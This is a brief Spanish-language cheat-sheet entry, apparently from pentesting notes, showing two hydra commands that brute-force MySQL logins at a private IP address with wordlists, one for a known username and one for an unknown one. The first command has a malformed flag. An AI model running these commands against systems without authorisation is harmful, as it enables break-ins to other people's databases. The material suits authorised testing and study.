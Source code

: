 
---
## Ataques de Fuerza bruta a servicio Mysql.

```bash
# En caso tengamos el usuario
hydra - <usuario> -P contraseñas.txt mysql://192.168.1.10


# En caso no tengamos el usuario
hydra -L usuarios.txt -P contraseñas.txt mysql://192.168.1.10
```
